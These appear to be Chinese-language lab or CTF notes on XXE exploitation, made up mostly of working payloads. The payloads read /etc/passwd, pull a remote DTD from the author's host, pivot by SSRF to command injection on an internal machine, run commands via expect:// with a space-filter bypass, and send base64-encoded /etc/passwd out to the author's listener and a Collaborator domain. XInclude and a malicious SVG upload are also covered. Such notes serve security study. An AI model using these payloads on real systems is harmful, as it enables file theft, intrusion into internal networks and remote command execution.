==xml提交post尽量不换行==
# 外部实体文件读取
**步骤1：**
1.随意输入利用burpsuit抓包，发现`<username></username> `中内容被回显出来
2.这是一个明显xml格式

**步骤2：**
外部实体注入
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user>
	<username>
	&xxe;
	</username>
	<password>
	adm
	</password>
</user>
```

# **XXE参数实体化读取文件**
**尝试读取etc/passwd**
发现有过滤
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<user><username>&xxe;</username><password>a</password></user>
```

**file伪协议被过滤**
1.在自己的服务器(自己的kali主机)上开启web服务并在其中写入被过滤的的代码，通过远程访问该文件实现对file协议的禁用绕过

开启web服务
2访问我的xxe.dtd文件实现调用
```xml
<!DOCTYPE user[<!ENTITY % xxx SYSTEM "http://192.168.245.128:81/xxe.dtd">
	%xxx;
	]>
<user><username>&xxe;</username><password>a</password></user>
```

# **XXE进行SSRF漏洞利用**

**通过对http://10.1.2.3进行替换，则可以对目标内网主机进行访问，用来探测其是否在线或是否可以访问**
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "http://10.1.2.3">]>
```

**主机存活，并且貌似存在rce漏洞**
也就是公网上的主机作跳板，访问了内网，而内网存在一台主机B存在注入，通过跳板机对B主机进行命令注入
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "http://10.1.2.3?cmd=ls">]>D
```
**查看flag**
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "http://10.1.2.3?cmd=cat+flag">]>
```

# 利用php伪协议读取文件
- 直接读取目标主机文件
- 利用ssrf读取目标主机的源代码
**可以直接读取**
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "http://10.1.2.3?cmd=cat+flag">]>
```

**不能直接读取**
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "http://10.1.2.3?cmd=cat+index.html">]>
和
<!DOCTYPE user[<!ENTITY xxe SYSTEM "http://10.1.2.3?cmd=cat+index.php">]>
```

**利用php伪协议对读取本地内容加密后进行读取**
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=etc/passwd">]>
```

**加密读取远程主机文件**
```xml
<!DOCTYPE user[<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=http://10.1.2.3?cmd=cat+index.php">]>
```

解密发现造成rce的原因


# XXE利用expect扩展进行命令执行
**执行id命令**
```xml
<!DOCTYPE user[<!ENTITY test SYSTEM "expect://id">]>
<user><username>&test;</username><password>admin</password></user>
```

**执行cat /etc/passwd需要对空格进行绕过cat$IFS/etc/passwd**
```xml
<!DOCTYPE user[<!ENTITY test SYSTEM "expect://cat$IFS/etc/passwd">]>
```


# XXE无回显外带数据
**在自己的服务器中放置这样一个文件xxe_wuhuixian.dtd**
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://192.168.245.128:7777/?p=%file;'>">
```
- `"<!ENTITY &#37; send SYSTEM 'http://192.168.245.128:7777/?p=%file;'>"`==中 &#37; send的意思是% send是一个参数实体，而%写成&#37;是为了浏览器可以正确解析==
**请求体利用burpsuit进行修改**
```xml
<!DOCTYPE user[<!ENTITY % remote SYSTEM "http://192.168.245.128:81/xxe_wuhuixian.dtd">%remote;%init;%send;]>
```
- `%remote` 首先下载远程服务区器中的xxe_wuhuixian.dtd文件到DTD中加载
- `%init` 加载参数实体init也就是**==`<!ENTITY &#37; send SYSTEM 'http://192.167.245.128:7777/?p=%file;'>`==**
- `%send` 调用参数实体send实现对`http://192.167.245.128:7777/?p=%file;`的请求
	- 该http请求调用了`%file`实体，加密读取/etc/passwd

==过程解释==
```xml
**%remote 加载外部实体**
<!DOCTYPE user[<!ENTITY % remote SYSTEM "http://192.168.245.128:81/xxe_wuhuixian.dtd">%remote;%init;%send;]>
↓变成了
<!DOCTYPE user[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://192.168.245.128:7777/?p=%file;'>">
%init;%send;]>
↓
**%init 调用init参数实体**
<!DOCTYPE user[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY &#37; send SYSTEM 'http://192.168.245.128:7777/?p=%file;'>
%send;]>
**%send 调用send参数实体 对我的服务器发起请求，我开启7777端口进行监听**
**对我的服务器请求时get传参p，而get中调用%file参数实体，会将/etc/passwd加密提交到我的7777端口**
```


对结果进行解密
	
**利用burpsuit自带的Collaborator进行DNS外带==前提对方可以进行dns解析==**
**稍微修改一下xxe_wuhuixian.dtd**
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % init "<!ENTITY &#37; send SYSTEM 'http://g3k9ipiczo8veg64edoo947t5kbbz5nu.oastify.com/?p=%file;'>">
```
# 利用Xinclde执行XXE

```xml
<root xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="/etc/passwd" parse="text"/></root>
```
- 命名空间：`<root xmlns:xi="http://www.w3.org/2001/XInclude/">` 变量名xi，官方xinclude路径`http://www.w3.org/2001/XInclude/`
- `<xi:include href="/etc/passwd" parse="text">`调用xi里的include动作命令href读取文件/etc/passwd，以text文档方式读取出来
- 读取/etc/passwd文档

# 上传图片文件进行XXE利用
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg[
    <!ENTITY xxe SYSTEM "file:flag.txt">  <!-- 定义恶意外部实体 -->
]>
<svg width="500px" height="100px" 
     xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink" 
     version="1.1">
    <text font-family="Verdana" font-size="16" x="10" y="40">
        &xxe;  <!-- 引用外部实体，读取文件内容 -->
    </text>
</svg>
```
- 


```xml
<?xml version="1.0" standalone="yes"?> 这一行必须要有

<!DOCTYPE svg[
    <!ENTITY xxe SYSTEM "file:flag.txt">  <!-- 定义恶意外部实体 -->
]> 这三行相当于payload

<svg width="500px" height="100px"                  //定义svg画布
     xmlns="http://www.w3.org/2000/svg" 
     xmlns:xlink="http://www.w3.org/1999/xlink" 
     version="1.1"> 这里也必须要有相当于声明
     
    <text font-family="Verdana" font-size="16" x="10" y="40">
        &xxe;  <!-- 引用外部实体，读取文件内容 -->
    </text>
</svg>
```